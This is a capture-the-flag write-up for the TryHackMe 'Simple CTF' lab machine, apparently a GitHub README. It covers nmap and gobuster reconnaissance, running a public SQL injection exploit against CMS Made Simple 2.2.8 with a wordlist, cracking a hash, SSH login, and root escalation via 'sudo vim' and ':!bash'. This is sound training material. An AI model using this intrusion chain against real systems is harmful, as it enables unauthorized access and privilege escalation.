 # TryHackMe: Simple CTF Write-Up

## Nmap Scan

I began by running an Nmap scan to identify open ports and services on the target machine.
```bash
nmap -sV 10.10.2.131
```

![Nmap Scan](https://raw.githubusercontent.com/Anjai7/Tryhackme_CTF/main/nmap.png)

The scan revealed that FTP, HTTP, and SSH services were running.

## Initial Web Exploration

I visited the website, but initially, nothing significant was found.

### Gobuster Directory Bruteforce

Next, I performed a Gobuster directory brute force attack:
```bash
gobuster dir -u http://10.10.2.131/ -w common.txt
```

![Gobuster Output](https://raw.githubusercontent.com/Anjai7/Tryhackme_CTF/main/gobuster.png)

This led me to the path [http://10.10.2.131/simple/](http://10.10.2.131/simple/), where I discovered that the website was running CMS Made Simple version 2.2.8. This information was hinted at by the "hints" button on the TryHackMe page.

![CMS Made Simple Version](https://raw.githubusercontent.com/Anjai7/Tryhackme_CTF/main/website.png)

## Exploit Search

I used SearchSploit to find a relevant exploit and found a SQL injection vulnerability.
```bash
searchexploit cms made simple
```

![SearchSploit Results](https://github.com/Anjai7/Tryhackme_CTF/blob/main/exploit.png)
## Exploit Execution

The initial exploit was written in Python2. I searched for a Python3 version and found it on GitHub:

- [Python3 Exploit Script](https://github.com/Jason-Siu/CVE-2019-9053-Exploit-in-Python-3/blob/main/46635.py)

I integrated this script with the original exploit and executed it. The process took about 10-15 minutes.(also had the hint in try hack me to use this word list)
```bash
python3 /usr/share/exploitdb/exploits/php/webapps/46635.py -u http://10.10.2.131/simple/ -w /opt/SecLists/Passwords/Common-Credentials/best110.txt
```

![Exploit Execution](https://github.com/Anjai7/Tryhackme_CTF/blob/main/credentials.png)

## Cracking the Password Hash

The exploit provided a salt and password hash, which I used with Hashcat to crack the password.

![Hashcat Output](https://raw.githubusercontent.com/Anjai7/Tryhackme_CTF/main/hashcracking.png)

## SSH Access

After cracking the password, I attempted to SSH into the system - but my initial connection failed because I hadn't noticed SSH was running on port 2222 instead of the default port 22. A quick review of my earlier Nmap scan revealed my oversight, and using the correct port gave me successful access.
```bash
ssh mitch@10.10.2.131 -p 2222
```
![SSH Access](https://github.com/Anjai7/Tryhackme_CTF/blob/main/ssh.png)

## Finding User
Navigate to home dirctory and use ls
```bash
cd /home/
ls
```
![User](https://github.com/Anjai7/Tryhackme_CTF/blob/main/user.png)

## Previlage Execution
Unable to spawn a privileged shell through my initial attempts, I referred other write-ups and discovered that leveraging vim with sudo permissions could be used for privilege escalation.
```bash
sudo vim
```
```bash
:!bash
```
![Previlage](https://github.com/Anjai7/Tryhackme_CTF/blob/main/previlage.png)
![Root](https://github.com/Anjai7/Tryhackme_CTF/blob/main/root.png)

##Lessons Learned
->Always pay attention to non-standard SSH ports.
->Use the wordlist they give you—it's like using a cheat code!
->If an exploit is in Python2, always search for a Python3 alternative.
->Vim + sudo = possible root access if not properly restricted.

